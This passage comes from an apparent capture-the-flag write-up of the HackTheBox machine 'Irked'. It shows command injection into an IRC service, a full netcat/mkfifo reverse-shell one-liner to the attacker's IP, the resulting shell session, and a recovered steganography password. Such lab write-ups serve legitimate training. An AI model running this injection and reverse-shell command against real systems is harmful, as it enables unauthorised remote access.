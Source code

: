 ```
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ nc 10.10.10.117 6697                                                                                                                                                                                                           1 ⨯ 1 ⚙
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB; ping -c 3 10.10.14.27
:irked.htb 451 AB; :You have not registered
```

As you can see from the image below we can see the ping request:

![image3](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Irked/images/3.png)

# User Flag

Start a listener and then run this command after you connect using **nc**:

```AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.27 4444 >/tmp/f```

And we got our shell:
```
(pwncat-env) ┌──(kali㉿kali)-[~/Desktop/pwncat]
└─$ pwncat --listen -p 4444 
[14:49:04] received connection from 10.10.10.117:41876  
[14:49:05] new host w/ hash 8d781d61aaae7e813fe928fc1939cb38
[14:49:07] pwncat running in /bin/bash 
[14:49:08] pwncat is ready 🐈                                                                                                                                                                                                                                                               
(remote) ircd@irked:/$ id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

So we can see where is the user.txt file located, but we can't access it. there is also a **.backup** in the same place, let's check it out:

```
(remote) ircd@irked:/home/djmardov/Documents$ file .backup
.backup: ASCII text
(remote) ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

So the only image we have is the **http** image let's check it:

```
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ wget 10.10.10.117/irked.jpg                                                                                                                                                                                                        1 ⚙
--2020-09-20 14:54:10--  http://10.10.10.117/irked.jpg
Connecting to 10.10.10.117:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34697 (34K) [image/jpeg]
Saving to: ‘irked.jpg’
